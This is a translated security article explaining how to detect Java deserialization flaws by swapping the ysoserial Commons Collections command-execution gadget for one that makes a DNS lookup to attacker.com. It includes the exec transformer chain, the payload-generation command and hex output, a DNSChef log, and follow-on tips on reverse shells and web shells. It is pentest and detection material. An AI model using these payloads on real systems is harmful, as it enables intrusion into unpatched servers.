 
# 【技术分享】通过泄露到DNS的信息检测反序列化漏洞（含演示视频）


                                阅读量   
                                **127723**
                            
                        |
                        
                                                                                                                                    ![](./img/85793/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：安全客
                                <br>原文地址：[http://gosecure.net/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/](http://gosecure.net/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)

译文仅供参考，具体内容表达以及含义原文为准

**[![](./img/85793/t0169262402e6ea2566.jpg)](./img/85793/t0169262402e6ea2566.jpg)**

****

翻译：[pwn_361](http://bobao.360.cn/member/contribute?uid=2798962642)

稿费：200RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**前言**

此刻，JAVA反序列化漏洞正在被厂商和攻击者所熟知。渗透测试人员今后还会遇到这种类型的漏洞。使用当前的一些小工具可以识别出这些漏洞，不过，大多数可用的小工具依赖于命令执行API。由于目标操作系统环境限制条件存在区别，因此，有效载荷的命令在目标系统中执行时，不一定会每次都成功。另外，在目标系统中，载荷所使用的命令也有可能不存在，或者载荷所要求的参数可能因命令的版本或安装的环境而有所不同(以GUN的netcat VS OpenBSD的netcat为例)。

由于在部分目标系统环境中存在上面提到的关于执行命令的一些限制，要想探测出这些漏洞就需要更多的试验和错误，对于目标，可能需要发送多个有效载荷，这使得自动化探测更加困难。制作一个通用的有效载荷，将会简化大规模反序列化漏洞的探测过程。在介绍我们的扫描方法之前，让我们为“更可靠的有效载荷”定义一个具体的实现目标。

<br>

**目标**

1.使有效载荷和具体的操作系统无关，如Windows、Ubuntu、Alpine Linux (Docker)、Solaris、AIX等系统。

2.即使目标的WEB容器运行在安全管理器或沙盒中，也能探测到发生的事情。

3.支持最常见的JVM1.6+版本，和可能的1.5*版本。

[YSoSerial](https://github.com/frohoff/ysoserial)生成的大多数载荷都符合这些条件。

[![](./img/85793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019ec7ebb28033c491.png)

<br>

**示例场景**

GoSecure的渗透测试小组遇到过几个需要对当前的小工具(或者称为载荷、组件)做一些修改的案例。例如，发现了一个旧的JBoss实例，并且对外开放了JMXInvokerServlet接口。根据它的版本，我们预计它应该存在可利用的漏洞。但是令人惊讶的是，我们利用所有已知的漏洞测试工具对这个JBoss实例进行测试，但是都失败了。

这些测试工具的失败意味着存在两种可能性：一是这些小工具在这个特定的环境中不起作用，二是目标系统已经打了补丁。然而，我们利用一个简单的有效载荷(就是后面我们创建的DNS解析载荷)做了一个DNS查询，证实了目标系统确实存在相应漏洞。基于这个事实，我们认为，为了避免使用命令执行API，创建一个替代的小工具是有必要的。

<br>

**创建一个DNS小工具**

为了确认目标是否存在漏洞，我们将对YSoSerial(frohoff/ysoserial、未修改)的一个已经存在的小工具进行修改。我们将使用一个简单的代码代替命令执行载荷，该代码将触发一个DNS解析。

Ysoserial中最常用的一个有效载荷是“Commons Collection”。其中，“Transformer”链会触发下面的代码：

Transformer链(使用了命令执行载荷)：



```
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
    new InvokerTransformer("exec", new Class[] { String.class }, execArgs),
    new ConstantTransformer(1) };
```

触发的代码：

```
((Runtime) Runtime.class.getMethod("getRuntime", new Class[0]).invoke(new Class[]{ Object.class, Object.class},new Object[0])).exec("echo your command here");
```

上面是未经修改的Ysoserial的代码，为了不使用命令执行API，我们对它进行必要的修改。同时，我们不能使用“nslookup”命令来触发DNS解析，因为我们要避免使用命令执行API。为此，我们将直接使用java API。

下面是我们修改过的Transformer链(使用了DNS解析载荷)：

```
new URL("http://resolve-me-aaaa.attacker.com").openConnection().getInputStream().read();
```



**确认目标是否存在漏洞**

如下图，我们利用Ysoserial(修改过的)生成了一个能解析独特主机名的一个载荷(或者称为配件、小工具)。将载荷发送给目标服务器后，如果服务器处理了任何反序列化，这个独特名称就可以作为追踪的方法。服务器可能会多次评估这个漏洞，或带有一些延时。使用独特主机名可以避免有可能产生的混淆，特别是当扫描多个主机时。在[我们的ysoserial分支](https://github.com/GoSecure/ysoserial)(GoSecure/ysoserial、已修改)中，已经有可用的完整POC代码。如下图，生成载荷：



```
$ java -jar ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections1Dns http://resolve-me-aaaa.attacker.com | xxd
00000000: aced 0005 7372 0032 7375 6e2e 7265 666c ....sr.2sun.refl
00000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41 ect.annotation.A
00000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174 nnotationInvocat
00000030: 696f 6e48 616e 646c 6572 55ca f50f 15cb ionHandlerU.....
00000040: 7ea5 0200 024c 000c 6d65 6d62 6572 5661 ~....L..memberVa
00000050: 6c75 6573 7400 0f4c 6a61 7661 2f75 7469 luest..Ljava/uti
00000060: 6c2f 4d61 703b 4c00 0474 7970 6574 0011 l/Map;L..typet..
00000070: 4c6a 6176 612f 6c61 6e67 2f43 6c61 7373 Ljava/lang/Class
00000080: 3b78 7073 7d00 0000 0100 0d6a 6176 612e ;xps}......java.
00000090: 7574 696c 2e4d 6170 7872 0017 6a61 7661 util.Mapxr..java
000000a0: 2e6c 616e 672e 7265 666c 6563 742e 5072 .lang.reflect.Pr
000000b0: 6f78 79e1 27da 20cc 1043 cb02 0001 4c00 oxy.'. ..C....L.
000000c0: 0168 7400 254c 6a61 7661 2f6c 616e 672f .ht.%Ljava/lang/
000000d0: 7265 666c 6563 742f 496e 766f 6361 7469 reflect/Invocati
000000e0: 6f6e 4861 6e64 6c65 723b 7870 7371 007e onHandler;xpsq.~
[...]
```

向目标系统发送载荷后，如果在我们配置的DNS服务器上收到了一个相应的DNS查询请求，那么就可以确认目标存在漏洞。为了记录DNS查询请求，我们可以利用很多工具，如 [DNS chef](http://thesprawl.org/projects/dnschef/)，[Burp Collaborator](https://portswigger.net/burp/help/collaborator.html)或[tcpdump](https://jontai.me/blog/2011/11/monitoring-dns-queries-with-tcpdump/)。在下面的样本中，我们使用DNS Chef来记录查询请求，可以看到DNS查询请求成功到达测试服务器。



```
# python dnschef.py -q --fakeip 127.0.0.1 -i 0.0.0.0
[*] DNSChef started on interface: 0.0.0.0
[*] Using the following nameservers: 8.8.8.8
[*] Cooking all A replies to point to 127.0.0.1
[12:16:05] 74.125.X.X: cooking the response of type 'A' for resolve-me-aaaa.attacker.com to 127.0.0.1
[12:16:05] 192.221.X.X: cooking the response of type 'A' for resolve-me-aaaa.attacker.com to 127.0.0.1
```

下图是这种异步扫描方法的直观表示图：

[![](./img/85793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01239020b3b7a03854.png)

<br>

**其他考虑**

一旦确认目标存在漏洞，渗透测试人员为了得到一个SHELL，需要继续做一些试验、或触发一些错误命令。关于这个工作，有一些有用的技巧：

1.确保你已经测试了一些反向SHELL命令(查看[Reverse Shell Cheat-Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))。

2.“Common collection”载荷在某些特定的JVM中可能会失败(如IBM J9)。Mathias Kaiser制作了一个特殊的载荷，支持这个不常见的JVM，[详情请看CommonsCollections6](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java)。

3.如果目标强制执行了一个安全管理器，你可能需要制作一个自定义的小工具。你可以通过“[DEADCODE’s blog article](https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)”去了解transformer链的大致情况。一种流行的方法是找到Web根目录的路径，并编写一个可以稍后执行的web shell。关于此，[在GoSecure仓库](https://github.com/GoSecure/ysoserial/tree/master/src/main/java/ysoserial/payloads)中有一些样本工具。再说一次，如果目标环境中的安全管理器会阻止命令执行，才会需要这些工具。

<br>

**演示视频**

我们创建了一个异步反序列化漏洞扫描工具“[Break Fast Serial](https://github.com/GoSecure/break-fast-serial)”，对DNS Chef也做了一点修改，下面是该工具的简要演示。演示了对单个目标的扫描。DNS泄漏的信息证明了这个服务器存在反序列化漏洞。该工具还支持对多个IP、端口进行扫描。该扫描器将对JBoss，Weblogic和Jenkins易受攻击的版本进行探测。对于如何配置DNS Chef服务器、如何生成载荷，及更多其它详细信息，请阅读[参考手册](https://github.com/GoSecure/break-fast-serial#mass-scan)，及相应POC代码。



<br>

**结论**

泄漏到DNS的信息有利于以下三个方面：

1.它可以实现反序列化漏洞的探测。

2.它有利于自动扫描多个主机。

3.即使目标服务器存在严格的防火墙限制，它也能识别出存在的漏洞。

我们发布了一款异步的[自动扫描器](https://github.com/GoSecure/break-fast-serial)，该扫描器能对JBoss，Weblogic和Jenkins易受攻击的版本进行探测。今后，我们会有计划的支持其他服务、框架。我们邀请测试者参与到这个开发过程中，这种更广泛和更快的方法，对防御者早期检测出反序列化漏洞很有帮助。

这篇文章主要关注了“CommonsCollection”载荷，但是我们建立小工具所使用的API也适用于其他载荷。同样的规则也适用于探测其他漏洞，如最近出现了[Struts漏洞](https://struts.apache.org/docs/s2-045.html)。

<br>

**参考**

[AppSecCali 2015: Marshalling Pickles](https://frohoff.github.io/appseccali-marshalling-pickles/)

[Blind Java Deserialization](https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)

[Blind-Java-Deserialization-Part-II](https://deadcode.me/blog/2016/09/18/Blind-Java-Deserialization-Part-II.html)
